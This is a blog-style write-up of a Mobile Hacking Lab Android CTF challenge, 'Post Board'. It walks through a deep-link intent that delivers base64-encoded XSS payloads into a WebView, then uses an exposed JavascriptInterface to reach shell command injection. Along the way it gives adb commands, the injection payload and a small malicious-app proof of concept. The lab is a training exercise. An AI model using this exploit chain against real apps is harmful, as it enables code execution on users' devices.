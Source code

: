 ```yaml
---
title:  "Mobile Hacking Lab Post Board Writeup"
date:   2024-01-22T16:27:00-0400
categories:
  - writeup
tags:
  - android
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for [Post Board](https://www.mobilehackinglab.com/course/lab-postboard) challenge from Mobile Hacking Lab. 

## Static Analysis
When we open the app in emulator, it opens a page with "Post Message" button and a text input area. As mentioned on text input box, we can send markdown messages and that messages shown on same page. Let's open it with jadx to understand the app.

![](./assets/images_mhl_postboard/manifest.png)

When we examine the manifest file, we see that an intent filter is defined for MainActivity. To properly trigger this activity we need to send intent with `postboard` scheme, `postmessage` host and VIEW action.
```bash
# Sample intent
adb shell am start -n com.mobilehackinglab.postboard/.MainActivity -a android.intent.action.VIEW -d postboard://postmessage/blabla
```
But we need to know what happened when this activity triggered. To undestand this, lets analyze MainActivity.

![](./assets/images_mhl_postboard/mainactivity.png)
 
Inside the onCreate function,initialize method will be called from CowsayUtil class. After that setupWebView and handleIntent methods will be called.

### CowsayUtil Initialize

![](./assets/images_mhl_postboard/cowsayutil.png)

In the initialize function, the cowsay.sh script is taken from the assets folder and move to the files directory under app local data storage. After it is set as executable, the location of this script is written to the scriptPath variable.

![](./assets/images_mhl_postboard/cowsayfiles.png)

If you look at the content of the cowsay.sh file, you can see that it has almost the same function as the cowsay command that can be used on Linux systems.

### setupWebView Function

![](./assets/images_mhl_postboard/setupwebview.png)

In this function, a webview object taken as argument and javascript execution enabled for this webview. After that a WebAppInterface object added to webview with [addJavaScriptInterface method](https://developer.android.com/reference/android/webkit/WebView#addJavascriptInterface(java.lang.Object,%20java.lang.String)). It means that we can access WebAppInterfaces's functions from our webview. 
```md
Functions inside WebAppInterface class:
- clearCache
- getMessages
- postMarkdownMessage
- postCowsayMessage

!!!NOTE!!!: Only public methods that are annotated with JavascriptInterface can be accessed from JavaScript.
```

### handleIntent Function

![](./assets/images_mhl_postboard/handleintent.png)

handleIntent function handle the coming intent and after checking the action and uri, gets the path section of uri(it drops the "/" char) and base64 decode the path. With this decoded message it calls postMarkDownMessage method from WebAppInterface. This method process our message with markdown syntaxes and write on the page. During base64 decoding url-safe decoding mode will be using([as mentioned with "8" number on code](https://android.googlesource.com/platform/frameworks/base/+/master/core/java/android/util/Base64.java#60)).

For example, if you want to write "hello" to board, the proper intent will be this:
```bash
#base64("hello") -> aGVsbG8
adb shell am start -n com.mobilehackinglab.postboard/.MainActivity -a android.intent.action.VIEW -d "postboard://postmessage/aGVsbG8"
```
![](./assets/images_mhl_postboard/intent1.png)

It works. As we mentioned earlier, javascript executrion is enabled on this webview. Lets try basic xss payload 😈

```bash
#base64("<img src=x onerror=alert(1337)>") -> PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEzMzcpPg
adb shell am start -n com.mobilehackinglab.postboard/.MainActivity -a android.intent.action.VIEW -d "postboard://postmessage/PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEzMzcpPg"
```
![](./assets/images_mhl_postboard/intent2.png)

It works🎉 We can execute javascript inside webview. As we mentioned on setuprWebview function, we can access the methods inside webappinterface. Lets try postCowsayMessage method. For invoking that method from js, we can use this intent:
```bash
#base64("<img src=x onerror=WebAppInterface.postCowsayMessage("moo")>") -> PGltZyBzcmM9eCBvbmVycm9yPVdlYkFwcEludGVyZmFjZS5wb3N0Q293c2F5TWVzc2FnZSgibW9vIik-

adb shell am start -n com.mobilehackinglab.postboard/.MainActivity -a android.intent.action.VIEW -d "postboard://postmessage/PGltZyBzcmM9eCBvbmVycm9yPVdlYkFwcEludGVyZmFjZS5wb3N0Q293c2F5TWVzc2FnZSgibW9vIik-"

```
![](./assets/images_mhl_postboard/intent3.png)

It works like standart cowsay command 🐄 But how this cowsay.sh called inside apk?

```java
@JavascriptInterface
    public final void postCowsayMessage(String cowsayMessage) {
        Intrinsics.checkNotNullParameter(cowsayMessage, "cowsayMessage");
        String asciiArt = CowsayUtil.Companion.runCowsay(cowsayMessage);
        String html = StringsKt.replace$default(StringsKt.replace$default(StringsKt.replace$default(StringsKt.replace$default(StringsKt.replace$default(asciiArt, "&", "&amp;", false, 4, (Object) null), "<", "&lt;", false, 4, (Object) null), ">", "&gt;", false, 4, (Object) null), "\"", "&quot;", false, 4, (Object) null), "'", "&#039;", false, 4, (Object) null);
        this.cache.addMessage("<pre>" + StringsKt.replace$default(html, "\n", "<br>", false, 4, (Object) null) + "</pre>");
    }
```
postCowsayMessage method calls `runCowsay` method from CowsayUtil class.

![](./assets/images_mhl_postboard/runCowsay.png)

Here path of cowsay script and message passed to shell without any validation. This problem may leads to command injection attack. Lets try it:
```bash
#base64("<img src=x onerror=WebAppInterface.postCowsayMessage("moo;pwd;whoami;")>") -> PGltZyBzcmM9eCBvbmVycm9yPVdlYkFwcEludGVyZmFjZS5wb3N0Q293c2F5TWVzc2FnZSgibW9vO3B3ZDt3aG9hbWk7Iik-

adb shell am start -n com.mobilehackinglab.postboard/.MainActivity -a android.intent.action.VIEW -d "postboard://postmessage/PGltZyBzcmM9eCBvbmVycm9yPVdlYkFwcEludGVyZmFjZS5wb3N0Q293c2F5TWVzc2FnZSgibW9vO3B3ZDt3aG9hbWk7Iik-"

```
![](./assets/images_mhl_postboard/intent4.png)

Yess we get code execution🎉 If you want to get code exection with malicious app, here is my sample code:

```java
public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Uri uri = Uri.parse("postboard://postmessage/PGltZyBzcmM9eCBvbmVycm9yPVdlYkFwcEludGVyZmFjZS5wb3N0Q293c2F5TWVzc2FnZSgibW9vO3B3ZDt3aG9hbWk7Iik-");
        Intent intent = new Intent(Intent.ACTION_VIEW);
        intent.setClassName("com.mobilehackinglab.postboard","com.mobilehackinglab.postboard.MainActivity");
        intent.setData(uri);
        startActivity(intent);
    }
}
```
Thanks for reading! See you in next writeups 👋🏻👋🏻